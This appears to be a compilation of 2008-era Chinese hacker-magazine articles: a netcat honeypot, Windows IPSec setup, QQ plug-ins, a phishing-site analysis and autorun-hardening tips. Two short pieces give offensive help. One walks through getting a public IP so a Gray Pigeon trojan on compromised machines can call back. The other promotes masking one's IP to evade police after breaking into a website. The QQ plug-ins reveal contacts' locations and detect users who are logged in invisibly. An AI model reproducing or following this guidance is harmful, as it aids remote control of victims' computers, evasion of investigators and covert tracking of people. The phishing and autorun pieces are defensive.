开发自己的蜜罐其实也并不那么复杂，只需掌握一些基本代码和大量的安全工具，并进行大量创新和借鉴组合便可产生不同的蜜罐。

如果是希望检测某些探测或扫描，或想捕获特定攻击的负载，可以做一个对单独端口进行模拟或侦听的简单程序就可，即端口监视型蜜罐。如果想要蜜罐模拟一个完整的操作系统，跟踪监视入侵者进行的活动，就需设计一个更为复杂的带有更高交互性的蜜罐，即牢笼型蜜罐。

（1）端口监视型蜜罐
如 SecurityFocus 的 Ryan Russell 运用 netcat 方案部署的 Windows NT 蜜罐。使用 netcat 实现端口监听器的命令行如下：

```
nc -l -p 80 XX
```
- nc：netcat，实际的应用程序
- -l：listen，创建捕获发往该 socket 的活动
- -p：对特定端口进行监听
- 80：监听端口
- XX：希望保存连接和捕获信息的文件名

（2）牢笼型蜜罐
监狱环境（chroot）是一种交互性更高的蜜罐，虽并不能模拟完整的操作系统功能，但已能捕获大量的信息。只是目前还不能运用于 Windows 系统，部署和维护一种 chroot 有些复杂，必须将所需的全部功能都添加到 chroot 目录下，还需对系统日志进程进行修改。

看了各种蜜罐的介绍，是不是很想试试呢？看看网络是不是如想象中那么安全吧。如今即使是拨号上网也会遭到入侵攻击，随时都会有不明来访者在窥视你的系统，我们的信息安全日益受到威胁，而蜜罐系统作为一种检测和反捕工具，将有着更广阔的前景。

编辑点评：
作为蜜罐，最好玩的还是自制蜜罐，你能从制作过程中学到很多很多知识，相信我，真的很多。最简单的，只要利用 telnet 服务和批处理，就能模拟几乎所有常用的网络服务，诱捕欺骗入侵者。而做这些所需要的经验和技巧可不是文字能表达的了。强烈建议广大读者自己回去动手哦，然后把你的成绩投稿过来和大家一起分享^-^。

图冷雪书生

从本文你可以学到：
Windows 下的 IPSec 管理

经过前两期的学习，大家对 IPSec 的基本知识都了解了，现在开始我们真正的 IPSec 之旅。

# 第二部分 细探 Windows 下的 IPSec

## 一、如何进入 IPSec 的管理界面

通常有两种方法，第一种是依次选择“开始”-“所有程序”-“管理工具”，再选择“本地安全策略”就可以打开。这里给大家讲第二种方法，在“运行”中输入 mmc 后打开微软的管理控制窗口，然后选择“文件”-“添加 / 删除管理单元”，弹出一对话框并自动定位到“独立”选项卡，然后点“添加”，弹出如图 8 所示的对话框。

先选择“IP 安全监视器”然后点“添加”，再选择“IP 安全策略管理”，弹出如图 9 所示的对话框。

这里有四项，你可以根据情况进行选择，本文选择第一项。第一项表示在你自己的计算机（本地或当前计算机）上运行 IPSec。第二项表示这台计算机是一台 AD 服务器，用于为域中的成员提供安全，通常是一台边界服务器，充当 NAT 功能。第三项表示用另外的一台 AD 服务器来提供 IPSec，选择此项后需要输入 AD 的域名。第四项表示在另外一台计算机上实现 IPSec，选择此项后，可以点“浏览”选择一台计算机，可以是工作组环境或域环境，也可以输入计算机名，但要用 UNC（通用命名约定）格式，即符合“\servername”的形式。选择好后点“完成”即可，添加后的结果如图 10 所示。

## 二、IPSec 的初始面貌

在图 10 中点击“IP 安全策略，在本地计算机”选项，自动在右边列出了三项 IPSec 策略。其中每一项可以称为一个策略集，一个策略集里面可以含有多项策略子集。这是因为每次只能有一个策略集被指派（运行），所以我们只有在一个策略集中放多个子集才能满足我们的要求。

这三项策略是在 Windows 下默认设置好的，它就相当于一个模板一样，并没有完整的策略在里面，而需要你自己去添加，它们的具体含义在“描述”一栏中有说明。

其中第一项“安全服务器（需要安全）”表示这台计算机将作为一台服务器，并且需要借助 Kerberos 来提供和其它客户端的通信安全，如果客户端不被信任将无法通信。
第二项“客户端（仅响应）”表示这台计算机是一台客户端，而且与服务器进行协商时只进行响应，安全性低。
第三项和第一项的区别是第三项允许不被信任的客户端也能和服务器通信。

这三项可能并不符合你的要求，下面我们创建一个属于自己的 IPSec 策略集。

## 三、创建一个新 IPSec 策略集

在图 10 中右击左边的“IP 安全策略，在本地计算机”选择“创建 IP 安全策略”，点下一步，在“IP 安全策略名称”对话框中输入策略集的名称，如“黑手安全”，然后可以在“描述”中输入一些描述信息以方便理解，如图 11 所示。

在图 11 中点“下一步”，在出现的对话框中按默认设置，接着点“下一步”，来到如图 12 所示画面。图 12 中用于设置身份验证方式，默认选择的是第一项，即存在于 AD 上的 Kerberos V5 协议，关于 Kerberos 可以看看前面的讲解。第二项是使用证书，点击“浏览”可以选择证书，里面有很多证书，并对每个证书作了详细说明。这里我们选择的是第三项，即使用“预共享密钥”，它就相当于密码，不过它是明文显示的，在注册表中是明文存放的，在 AD 中是以 16 进制存放的，但它实现起来要比前两者更容易。

预共享密钥采用 Unicode（UTF-8 格式）编码方式，也就是可以输入诸如中文之类的特殊字符，但最好还是只采用数字、字母和特殊字符来定义共享密钥，以免在有些对端服务器上不支持。你可以根据你的需要进行设置，设置好后点“下一步”，再点“完成”即可，如图 13 所示。

# 酷玩

**首语：**
互联网像传说中的百科全书一样，那是博大精深啊，小小的几个铅字怎么能把它的精髓标记出来呢？所以小编挑啊挑，捡啊捡，心里在嘀咕：到底读者喜欢哪个呢？为什么你不把你喜欢的告诉小编呢？你想知道的，感兴趣的，到论坛或发邮件告诉我们。说不定这些就出现在下期的杂志上了呢。

---

# DirectX 窗口化工具

**从本文您可以学到：**
1. 了解 DirectX 窗口化工具
2. 学会怎样将全屏游戏窗口化

最近在玩 TX 推出的游戏“穿越火线”，虽然有点比不上 CS，但宿舍里的人都在合伙玩，如果我不跟着潮流，很快就被他们孤立。郁闷啊……为什么呢？因为我的 QQ 上时不时有人和我聊天，但游戏却不能窗口化，不断地闪出聊天提示，麻烦啊！而且有时还会将游戏卡住（不知道你有没有同感）！所以上网查到了一个工具——DirectX 窗口化工具汉化版。

先来看下介绍：DirectX 窗口化工具汉化版，完美窗口化大部分全屏游戏，而且根本无需调整屏幕颜色。例如红色警戒、热血传奇、泡泡堂、冒险岛、劲舞团等，适用于 DirectX 7、8、9 全屏游戏。

大多数全屏游戏是 800x600 的分辨率，使用时最好请先把 Windows 的分辨率改大一点，如 1024x768。这样窗口化后，你可以使用别的程序而不必切换屏幕。如传奇这样的游戏是 256 色，使用一般外挂的窗口化后屏幕颜色会很奇怪，而且游戏屏幕是固定不可移动的。使用 DirectX 窗口化工具完全没有这样的问题，而且窗口化的游戏具有标题栏，让你任意移动位置。

**那接下来看下使用方法和效果：**

- 1、把分辨率改成 1024x768 或更大。
- 2、运行“DirectX 窗口化工具.exe”，界面如图 1 所示（运行之前记得先把压缩包解压到要窗口化的文件夹里）。
- 3、点击程序工具栏上的“+”号，然后选择你 CrossFire 客户端里的 QQLogin.exe 和 CrossFire.exe 文件。
- 4、最后点击“>”形状的按钮，提示“全屏”，钩住后按“开始”就可以了。

这样在游戏时还可以切换到 QQ 去聊天，如图 2 所示。再多做个例子，以劲舞团为例：

- 1、把分辨率改成 1024x768 或更大。
- 2、运行“DirectX 窗口化工具.exe”，点击程序工具栏上的“+”号，然后选择你劲舞团客户端里的 Audition.exe 文件，最后点击“>”形状的按钮。
- 3、按照正常方法进游戏吧，已经窗口化了。

**DirectX 窗口化工具迅雷下载地址：**（光盘中有收录）
`thunder://QUFodHRwOi8vd3d3LnNubG9uZ3h6LmNuL3NvZnQvRDNEMVdpbmRvd2VyLnJhclpa`

**编辑点评：**
我个人还是挺喜欢这款小工具的，有了它，就可以一边玩游戏一边做别的事了。如果你是宽屏，分辨率调一下刚好一边玩游戏一边看电影，爽啊。

---

# 常见的 QQ 外挂介绍

**作者：蜀国布衣**

**从本文您可以学到：**
了解几款常见的 QQ 外挂的功能和使用方法。

当人们提起 QQ 外挂时，首先就会想到珊瑚虫。但是“人怕出名猪怕壮”，在腾讯诉诸法律后，珊瑚虫终于英勇地倒下了。但是“长江后浪推前浪”，各种各样的 QQ 外挂又不断的出现。今天我就来介绍几款目前常见的 QQ 外挂，让大家可以根据自己的需要进行选择使用。

## 一、FinePlus

FinePlus 外挂是现在使用最多的 QQ 外挂之一，它的前身是早期的一款外挂程序 LiteIM。由于 FinePlus 外挂是以附加程序的形式出现的，因此用户首先需要在本地安装 QQ 的客户端程序，接着将 FinePlus 外挂程序包中的文件复制到 QQ 目录即可。现在运行 QQ 目录中的 FinePlus 就可以直接启动 QQ 程序进行使用了。和其他的 QQ 外挂一样，FinePlus 最重要的功能就是去除广告和显示 IP 地址。从使用过程中可以看到，FinePlus 可以完成这两项基本的功能。

不过要想让 FinePlus 使用得更加顺手，需要使用专门的配置工具进行个性化设置。由于 FinePlus 的配置工具有很多，因此我们这里就选择最新的 FinePlus Shell 来进行使用。它是一款图形界面的编辑器，基本上实现了 FinePlus 简单的配置和版本号修改。首先还是将其复制到 QQ 目录并运行，我们可以看到配置工具的内容还是相当丰富，包括基本设置、界面优化、性能优化、隐私设置等。

其中“基础设置”标签包括了对 QQ 路径、 IP 地址库、自定义 IP 库等进行设置。如果不进行设置的话，就会尝试启动和使用当前目录下的相关文件。“界面优化”标签包括对 QQ 某些功能的限制，这样可以减少 QQ 对系统资源的占用。比如“禁止 QQ 秀链接”、“关闭 QQ 医生完整性检查”、“关闭自动更新组件查找”。

“性能优化”标签可以进一步优化 QQ 的使用。比如在启用“内存整理”功能后，FinePlus 会定时对内存进行优化操作，避免 QQ 程序对系统资源的过度占用。而在启用“文件清理”选项后，会自动清除 QQ 目录中的一些垃圾文件，比如 QQ 秀、QQ 图标、缓存信息等。

关于 FinePlus 的 IP 地址显示，可通过“IP 设置一”和“IP 设置二”两个标签进行设置。其中“IP 设置一”用于设置 IP 地址的内容，FinePlus 可以通过对话框、主界面、对话框悬停等三种方式进行显示。用户既可以自定义进行 IP 地址显示格式的设置，也可以在“经典设置”中进行相应的选择。而“IP 设置二”标签主要是对 IP 地址的复制、储存等。而在“偏好设置”标签里面，用户可以根据自己的需要，选择或去除某些 QQ 自带的功能。

总的来说，FinePlus 是一款非常优秀的外挂程序，完全可以和大名鼎鼎的珊瑚虫媲美。不过 FinePlus 还有一点不足需要加强，就是在主动探测用户 IP 地址这方面的不足。因为 FinePlus 没有检测到 IP 地址的话，可以通过手工发送图片的方式，来检测远程用户的 IP 地址。另外最新版本的 FinePlus 将去广告的功能进行了删除，不过我们还是可以按照以前的文章进行广告的自行删除。

## 二、彩虹外挂

彩虹外挂是今年春节以后才出现的一款新的 QQ 外挂程序。目前彩虹外挂同样是以附加程序的形式存在，并且需要安装才可以进行使用，因此用户也需要在本地安装了 QQ 程序后，再进行彩虹外挂的安装操作。彩虹外挂安装完成以后，不需要任何设置就可以直接运行外挂程序。

从启动的 QQ 窗口可以看到，彩虹外挂在聊天窗口的上方出现相关功能栏，而外挂本身并没有对 QQ 程序界面做任何的修改，所以 QQ 广告依然在原来的位置上不停的更新着，由此我们也可以看出作者的良苦用心啊。

彩虹外挂使用独创的自动探测技术，以及结合手工的探测技术，再配合强大的纯真 IP 地址库，可以高效的侦测远程用户所在地信息。比如在彩虹外挂的功能栏中，可以显示出远程用户的物理地址。当用户将鼠标移动到物理位置的时候，还可以显示出 IP 地址等其他信息。

另外，彩虹独创的探隐身技术，可以显示在自身登录以后，所有利用隐身方式进行登录的 QQ 用户。当发现有隐身好友的时候，彩虹外挂会将其昵称显示为蓝色进行提示。除此以外，现在很多用户都喜欢使用脑残体这样的火星字，而最新版本的彩虹外挂则加入了这样的功能，这也是其主要的特色之一。点击功能栏中的“字体”按钮，其中包括简体字、繁体字、火星字。如果想要发送火星字的话，选择“火星字”选项后输入相应的内容即可。

总的来说，彩虹外挂也是一款很有特色的外挂程序。但是除了显示 IP 地址是大众需要的，其它的诸如老板键、虚拟摄像头、繁体字输入法等，并不是每个用户都想要的。看来要想赢得更多的用户，还需要加入其它更多实用的功能才行。

## 三、HTF 外挂

HTF 外挂是 HTF 美化小组推出的一款外挂程序，不过它和上面的两款外挂程序不一样。因为 HTF 美化小组将其和 QQ 程序进行重新封装，这样直接安装 HTF 版的 QQ 安装程序就一次搞定，就像当年的珊瑚虫 QQ 程序一样。

登录 HTF 版的 QQ 以后，我们可以看到其功能也特别简单，就是去除广告和显示 IP 地址。通过测试发现，HTF 外挂的广告去除非常不错，但是显示 IP 地址功能还需要加强。由于 HTF 外挂没有主动探测功能，因此在没有探测到 IP 地址信息的时候，还是需要用户通过发送图片的方式来进行手工方式的检测操作。

除此以外，HTF 外挂还有一些屏蔽功能，包括禁止腾讯迷你首页、禁止 QQ 直播、禁止 QQ 系统消息等，这样可以减少一些 QQ 对系统不必要的占用。归根到底一句话，HTF 外挂主打的就是简单实用。当然如果以后能在新版本中，进一步增强相应的功能，我想应该可以进一步获得用户的认可。

## 四、小结

通过上面的介绍，我想大家已经对这三款 QQ 外挂有了初步的了解。如果想要功能强大，那就使用 FinePlus；如果想要主动探测 IP 地址，那么就使用彩虹 QQ 外挂即可。其实在此之前，还有一款有名的“功夫 QQ”外挂程序，也是笔者非常喜欢的。这款外挂的主要亮点就是可以主动探测 IP 地址，不过它从春节后就没有再进行更新了，实在是有些令人感到遗憾。

**编辑点评：**
当年珊瑚虫的名号响彻大江南北，现在，一个珊瑚虫倒下了，千千万万个外挂站起来！本文为您介绍了几款相当不错的 QQ 外挂，相信一定有你喜欢的。

---

# 策略集的属性（IPSec 学习笔记）

在图 13 中双击策略集“黑手安全”，弹出如图 14 的对话框。在这里默认只有一个安全规则（子策略），这可能并不符合我们的要求，所以下面要建立自己的安全规则，这里面的一些属性后面再讲。

这期就到这里，也许到现在你还不能完全定义一个安全规则，放心，读了下期的文章，你就会完全感受到自己知识的变化了。

**编辑点评：**
之前你在设置 IPSec 的时候会不会一头雾水呢？不知道各个选项是干嘛用的。通过连续 3 期的 IPSec 的学习，现在的你应该能自己动手稍微管理一下你的 IPSec 了，而到下期，我们将一起建立一个完整的 IPSec 安全规则。

---

# 对一个盗号站的分析

**作者：眼镜王蛇**

**从本文您可以学到：**
看看别人怎样从细节发现钓鱼网站的问题。

最近是不是老收到免费送 Q 币的消息？大家是不是很动心呢？可能有人想，这肯定又是个盗号站！可是，也会有些人想：怎么是 Google 的地址呢？难道 Google 和腾讯合作了？既然是 Google 的，那我就去看看，至少当时我第一眼看上去是这样想的。好，现在大家和我一起来分析这个站吧。可先别晕啊，这不是分析代码，而是直接从表面分析，让那披着羊皮的狼显露真相。

我们来打开网站（提示一下大家：有些站点可能挂了木马，大家小心！）。估计 90% 的人只看到页面上“迎接 2008 北京奥运——点击领取 Q 币”的字样，而没去注意其他的问题，然后就去点击领取了……

**分析：** 熟悉 Google 的人会知道，这只是 Google 所提供的一个个人主页展示的功能。我们从这里就可以知道这送 Q 币的活动是假的了，因为腾讯和 Google 是不可能用个人主页来展示活动的。如果不清楚 Google 的服务，我们还能在下一步找到破绽。

选择“点击领取 Q 币”，这时我们来到了领取界面。第一眼看上去还挺漂亮的，这钓鱼者还挺有心的。这么逼真的画面，估计又有 90% 的用户去点击“立刻参加”了。

**分析：** 我们别急着点击参加，先看完整个页面。把页面拉到最后，我们可以看到一个很好笑的东西——“站长统计”。腾讯或 Google 会用这个东东吗？显然不会，所以这就可以肯定是假的了。另外，腾讯网页的底面信息中，“版权所有”是文字信息，可以链接的，而这里却只是一张图片。

好，我们继续往下看。这时，网站弹出了个对话框，要你登录，这可是重点啊！那我们就登录。当然，对这个站点的可信度要进行测试，我们先随便输入一个账号和密码。

**分析：** 如果是真的站，腾讯是有数据比对的，要账号和密码是正确的，才可以进行下一步的操作。而钓鱼网站是没有用户数据的，不论账号密码的正确与否，都可以进行下一步，让你进行下一步只是掩盖他盗号的真实目的。当你点确认时，你的账号密码就会发送到钓鱼者指定的地方。我们点确定，哈哈，可以进入下一步，那就确定这是假的啦，而且进入下一步的时候，真正的腾讯站点是会出现对应账号的昵称的，而这里却没有。

估计大家看到这个页面时，都会先看到“领取 Q 币个数”。如果这时它告诉你成功获得 Q 币的话，自然有人会开始怀疑这个站点的真实性，毕竟他还是知道天上不可能有这么好的事。当成功获得 Q 币后，肯定用户会直接去查看自己账号到底有没有 Q 币，那么这个钓鱼站点的真实面目很快就会被发现，被钓鱼者很快就去修改密码，那钓鱼者就失败了。所以钓鱼者就会有点要求：

“必须是不同 IP 地址的，同一 IP 地址系统将无法识别而视为无效点击。”

**分析：** 这句话里的“15 个 Q 币”是你刚刚所选的需要获得的 Q 币个数，对应的你就要发送你的链接给 15 个人。选更多的 Q 币只是会让你去骗更多的人。而这句关于 IP 的话只是骗小孩的，他的目的只是为了防止一些人胡乱申请 QQ 号来获得 Q 币，这会降低 QQ 信（QQ 账号密码等的资料）的质量。而建议您把此消息发送给 QQ 群的用户，只是为了钓鱼链接能更快更有效的传播。

这样，钓鱼者又能让被钓鱼者不发现骗局，还能让更多的人上当受骗，真可谓是一举两得啊！

**总分析：** 钓鱼者心理学和智商是很不错的，这些钓鱼站点对引诱大家一步一步进入骗局的地方都设置得特别醒目，而且那些语言是那么的诱人。被钓鱼者其实是被自己的贪念一步一步的引入歧途。至此，这个钓鱼站就分析到这里。最后想和大家说一句经典而十分正确的话：天上不会掉馅饼。一切想不劳而获的人只会在最后吃亏，脚踏实地，真心真意的去工作赚钱吧……啰嗦了……

**编辑点评：**
文章很简单，不是从技术上分析，但很适合菜鸟，这个故事告诉我们，无论什么事情，只要你细心观察，用心思考，总会发现问题的所在。要想成为高手，只有技术是远远不够的。

---

# 让 MSN 共享文件夹彻底消失

**作者：小坏坏**

**从本文你可以学到：**
如何删除 MSN 共享文件夹。

Windows Live Messenger (MSN) 是目前比较流行的一款聊天软件，但新版的 MSN 在安装完成后，在“我的电脑”窗口中新增了一个“我的共享文件夹”。或许是为了方便用户而新增的功能项，但如果我们不想要这个共享文件夹该怎么办呢？一般的删除方式是无法将其从该窗口中清除的，所以只好修改一下注册表了。

在“开始”→“运行”中输入“regedit.exe”，打开“注册表编辑器”，定位到：
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\NameSpace`

删除其下的 `{FC9FB64A-1EB2-4CCF-AF5E-1A497A9B5C2D}` 键值即可。可能大家觉得手工删除比较麻烦，可以将以下代码保存为 bat 文件运行就可以了：

```batch
@echo off
REG DELETE "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\NameSpace\{FC9FB64A-1EB2-4CCF-AF5E-1A497A9B5C2D}" /f
```

如果以后还需要使用该功能的话，可以先备份（导出）一下该键值。为了方便大家，这两个文件我都打包奉献出来了，呵呵……

> (文章中所涉及的相关程序及代码在本期光盘中有收录)

**编辑点评：**
不实用的东西就想办法去掉吧！现在发觉，注册表还真实用啊！

---

# WinRAR 另类隐藏文件

**作者：南宁哥哥**

**从本文您可以学到：**
巧妙利用 WinRAR 隐藏文件。

回收站是放“垃圾”文件的，一般不会有人注意到，在回收站里面的文件，打开回收站是无法看到的，清空回收站时也不会被删除，保密程度很高。我们的电脑中总有一些不想让别人看到的文件，现在，我们可以用 WinRAR 把那些文件隐藏到回收站。

1. 先用 WinRAR 打开 C 盘中的 Recycled 目录。
2. 点击“添加”再选择“文件”选项卡，点“追加”添加要隐藏的文件。
3. 在“高级”选项中设置密码，选择“加密文件名”复选框，然后再输入一个密码。确认就完成了！

假如有人用 WinRAR 发现这个压缩包，因文件名已加密，也无法打开被加密的压缩包。如果自己要查看文件，用 WinRAR 进入回收站，选择文件压缩包，解压文件到指定的文件夹就 OK 啦！

**注意：** WinRAR 会记住上次关闭时打开的文件夹，所以为了不让文件压缩包暴露，操作完后，要把 WinRAR 地址栏转到其它地方。

**编辑点评：**
WinRAR 就是很实用啊！小编偶又开眼了，简单快捷，实用方便的加解密方法不正是大家所追求的吗？

---

**编辑推荐最佳社工读物：**
《非安全-黑客手册》08 年度精彩 Hack 榜
国内第一本深度解读社会工程学技术书籍 中国铁道出版社 编号 008
定价：29 元

# Netpas 助我轻松拥有外网 IP

图黎法权

在网上经常看到有人问如何拥有外网 IP，在这里我介绍一种简单的方法，就是使用 Netpas 软件。“Netpas，网络加速软件，可以帮助您突破电信、网通及教育网的速度瓶颈，实现在三个网络间任意访问”——摘自原文。而安装 Netpas 后，你会拥有一个外网 IP，经测试，这个外网 IP 可上线鸽子等反弹木马，下面介绍详细步骤。

图 1 开启 DHCP Client 服务

首先右键打开我的电脑，选择“管理”-“服务和应用服务”-“服务”，开启 DHCP Client 服务，如图 1 所示。

然后下载安装 Netpas 客户端，在登录界面上注册一个账号，登录后你就拥有了一个外网 IP，你可以打开 CMD 查看。

现在我们来测试一下鸽子上线。在配置服务端把你运行 Netpas 后的外网 IP 填入服务 IP 访问地址，在本地或肉鸡上运行。看，上线了，如图 2 所示。

图 2 鸽子上线了

黑客手册

# 将 IP 隐藏到底

图熊猫书生

这是我第一次投稿，看手册一年半了，也该为手册做点贡献了。哈哈！^_^

在这一界混的朋友都知道，做事的时候，最忌讳的就是留下自己的脚印——IP 地址。前几天费了九牛二虎之力拿网站，终于功夫不负有心人。可当我登录后台查看日志时，发现我登录的 IP 密密麻麻，万一网警叔叔追查起来，这 IP 还不把我害死呀？为此到网上去搜了一下，终于，皇天不负有心人，让我发现了一款不错的软件。不敢独享，特出此稿。不过软件是外国的，英文版，将就着用吧！嘿嘿……重点是很好用的吆！

图 1 软件界面
图 2 搜索伪装的地区
图 3 伪装后的信息
图 4 IP 查询结果

闲话少说，安装软件一路 next 就行了，安装完成后如图 1 所示，挺漂亮的。右上角有个 Your Real IP：那是你的真实 IP 地址，它下面的 Your New IP：是你伪装后的 IP 地址。Not selected 说明你还没有伪装。

点击世界地图下的 Get IP Locations 按钮，它就为你搜索伪装的地区了，如图 2 所示。在世界地图上搜索出来的点，就是你可以伪装的地区了。鼠标点哪一个点，你的 IP 就会伪装成那的 IP，很方便的。

我点美国后，效果如图 3 所示。接着我们查询一下现在自己的 IP，如图 4 所示，怎么样？很方便吧！将它最小化后，你就可以为所欲为了。

想要恢复自己的 IP 时，就点一下锁状的按钮 Deactivate anonymity。这样就 ok 了，是不是很简单呀！软件就介绍到这了，其他功能感兴趣的自己慢慢研究吧！本文不存在什么技术含量，只希望抛砖引玉，继续为发扬资源共享精神尽点绵薄之力！

黑客手册

# 将免费进行到底——QQ 免费活动全攻略

图落叶纷飞[J.L.S.T] @ 肇庆

腾讯真是不厚道，为了赚钱真的是使出了浑身解数，就像 QQ 的钻石一样，都出黑钻了！既然腾讯赚了我们那么多钱，那么，这次我就来给大家送上一套 QQ 免费活动的攻略，希望大家喜欢。

- 1、玩 QQ 飞行岛赢绝版 QQ 秀
我们打开活动地址“http://nana.qq.com/act/a20080518act/index.htm”，在网页的左边登录之后就可以进行游戏了。首先我们要成功玩一次，领取“内测资格”证，然后只要再玩几次，就能获得奖品了。奖品有“绝版 QQ 秀”和“腾讯 QQ 空间装饰物”等，同一个腾讯 QQ 号每天可以玩 3 次哦！而且获得的奖品还可以赠送给别人哦，如果送点 QQ 饰物给 MM，你在 MM 的心目中一定又提升了一个级别了哦！

- 2、注册即得 QQ 秀随动表情
打开网址“http://www.crest.com.cn/member/register.aspx”，填写好注册信息后点击注册。在佳洁士网站中登录你的 QQ，然后选好你喜欢的一套 QQ 秀随动表情，七天内你就能收到一套 QQ 秀随动表情了。

- 3、免费送全套 QQ 秀
打开网址“http://show.qq.com/live/brand/home.html” (也可以进入腾讯 QQ 秀商城，点击导航上的“品牌”)，在下方你就会看到“QQ 秀大派送的字样”，我们选好自己喜欢的 QQ 秀后点击“免费领取”按钮就可以免费领取到 QQ 秀了！这个送 QQ 秀的活动每天仅限 1000 个名额，但是每周都有不同品牌的 QQ 秀领取哦！

- 4、免费领取限量版 QQ 秀、QQ 空间挂件、播放器、背景音乐。
打开网址“http://a.qzone.qq.com/mobile/index.htm”，点击中间的“我要参加”按钮。填好注册资料后点击“注册”按钮，就可以领取到奖品了。

- 5、30 天 QQ 秀免费领取
打开以下任意一个网址，点击整套购买即可免费获得整套 QQ 秀。
时尚形象三套 (发型不一样)：
- http://show.qq.com/show.html?MUrl=/my/inc/recmdview.html%3Fuin%3D396505205%26id%3D378691
- http://show.qq.com/show.html?MUrl=http%3A//show.qq.com/my/inc/recmdview.html%3Fuin%3D

全部地址在光盘中有收录，找找哦！

---

> 冰点：
> 在学校热，回到家里也是热。这几个月新闻不断，国内国际都不少。奥运这个月就要开始了，大家是准备在家里看电视直播呢，还是想到“鸟巢”一睹其精彩瞬间呢？我是不可能身临其境了，只有在家里看看电视，上上网，当然了，还会不时的翻看下咱们的黑手哇！

# 注册 @Microsoft.com 的邮箱及解析

从本文你可以学到：如何注册 @Microsoft.com 的邮箱

前段时间流行 live.com，今天教大家如何注册 @Microsoft.com 的邮箱。其实很简单的，只需要几步就可以了，首先让我们看看默认的注册后缀，如图 1 所示。

正式开始！

第一步：打开 http://get.live.com/getlive/overview, 再点“立即注册”。

第二步：到浏览器地址栏里输入以下代码便会提示你邮箱后缀已经添加成功，如图 2 所示。

```javascript
javascript: var p = 'microsoft.'; var ds = new Array('com', 'cn', 'fr', 'it', 'nl'); for (var i = 0; i < ds.length; i ++){document.getElementById('idomain').options[i] = new Option(p + ds[i], p + ds[i])}alert(' @Microsoft.com mail domains added');
```

然后我们再来看看可以注册的后缀，如图 3 所示。

第三步：在邮箱类型选择后缀便可以开始注册了。

注意：这个账户并不能真正收发邮件，因为 Microsoft.com 的邮件服务器和 Windows Live 的完全不一样，而且登录 Live Messenger 的时候也出现错误，显然 microsoft.com 是被屏蔽用做聊天账户的。所以，如果你想用这个邮箱收发邮件的朋友还是放弃吧。

下面是我发送邮件的退信提示：

> This message is generated by COREMAIL email system.
> I'm sorry to have to inform you that the message returned
> 你发送到 XXXX@Microsoft.com 的邮件由于以下原因被退回：
> XXXX@Microsoft.com SMTP error, RCPT TO: 554 : Recipient address rejected: Access denied

### 解析 JAVA 代码：

```javascript
javascript: var p = 'microsoft.'; var ds = new Array('com', 'cn', 'fr', 'it', 'nl'); for (var i = 0; i < ds.length; i ++){document.getElementById('idomain').options[i] = new Option(p + ds[i], p + ds[i])}alert(' @Microsoft.com mail domains added');
```

`var p = 'microsoft.';`
var p = 里面的值便是邮箱的域名名称，可以添加更多，如“live.”

`new Array('com', 'cn', 'fr', 'it', 'nl')`
new Array 里面的值便是后缀，可以添加更多，如“us”

`alert(' @Microsoft.com mail domains added')`
这里一看很多人都应该很熟悉，里面就是提示信息的部分，可以任意修改，同样也是可以去掉的。

> 编辑点评：
> JavaScript 代码在一些小技巧方面还是有很大的灵活性的，大家要是在这方面了解的话，我相信文章中提到的知识是难不倒你的！

## 10招防止自动播放

Sweety 仔仔

从本文你可以学到：U 盘病毒的防范方法

当我们每次移动硬盘、U 盘以及手机 USB 连接插入 USB 口时就会自动播放，不知道各位注意没？移动硬盘尤为突出，因为它有多个分区，需要一个一个手动关闭，操作十分麻烦，而且自动播放还会触发病毒。有什么方法可以阻止自动播放，又能阻挡病毒的入侵呢？这里就给大家介绍 10 招简单上手的方法，用以解决这个难题。

## 第 1 招：Shift 键
这个方法早在 Windows 98 时就已经开始使用了。只要在插入 U 盘时按住 Shift 键，就可以禁止 U 盘自动播放。

## 第 2 招：组策略预防法
在组策略的“计算机配置 → Windows 配置 → 安全设置 → 软件限制策略 → 其他规则”中右键添加路径和文件名，如：M:\*.exe。这样就可以防止 exe 文件自动运行，如图 1 所示。

## 第 3 招：CMD 关闭法
点击“开始”－“运行”，输入 cmd，进入 DOS 状态，以 C 盘为例，输入以下命令。另外，也可以进入安全模式操作此步骤。

```cmd
c:\attrib -s -r -h autorun.inf
del autorun.inf
attrib -s -r -h sxs.exe(可能没有)
del sxs.exe
```

## 第 4 招：注册表法
在“开始”菜单的“运行”中输入 Regedit，打开注册表编辑器，展开到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 主键下，在右侧窗格中找到“NoDriveTypeAutoRun”，就是这个键决定了是否执行 CDROM 或硬盘的 AutoRun 功能。双击“NoDriveTypeAutoRun”，在默认状态下，在弹出窗口中可以看到第一个值“95”是十六进制值，它是所有被禁止自动运行设备的和。将“95”转为二进制就是 10010101，其中每位代表一个设备：

| 常量名 | 位 | 默认值 | 十六进制 | 说明 |
| :--- | :--- | :--- | :--- | :--- |
| DRIVE_UNKNOWN | 0 | 1 | 01h | 不能识别的设备类型 |
| DRIVE_NO_ROOT_DIR | 1 | 0 | 02h | 没有根目录的驱动器 |
| DRIVE_REMOVABLE | 2 | 1 | 04h | 可移动驱动器 |
| DRIVE_FIXED | 3 | 0 | 08h | 固定的驱动器 |
| DRIVE_REMOTE | 4 | 1 | 10h | 网络驱动器 |
| DRIVE_CDROM | 5 | 0 | 20h | 光驱 (CD-ROM) |
| DRIVE_RAMDISK | 6 | 0 | 40h | RAM 磁盘 (RAM Disk) |
| 保留 | 7 | 1 | 80h | 未指定的驱动器类型 |

在上面所列的表中值为“0”表示设备运行，值为“1”表示该设备不运行（默认情况下，Windows 禁止 80h、10h、4h、01h 这些设备自动运行，这些数值累加正好是十六进制 95h）。

## 第 5 招：修改权限法
点“开始”->“运行”，输入 regedit.exe 后回车，打开注册表编辑器后展开项，然后进入 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2]`，右键点 MountPoints2，选择权限，点击“安全中的用户和组”，在下面的权限中都改成拒绝，刷新一遍，此后即使 U 盘有病毒也不会激活，双击 U 盘会正常进入 U 盘，如图 2 所示。

## 第 6 招：服务关闭法
在“我的电脑”中点击右键，选择“管理”，在打开的“计算机管理”中找到“服务和应用程序”→“服务”，然后在右窗格找到“Shell Hardware Detection”，这个服务就是为自动播放硬件事件提供通知的，如图 3 所示。双击后在“服务状态”中选择“停止”，然后将“启动类型”修改为“已禁用”或“手动”就可以了，如图 4 所示。

## 第 7 招：组策略关闭法
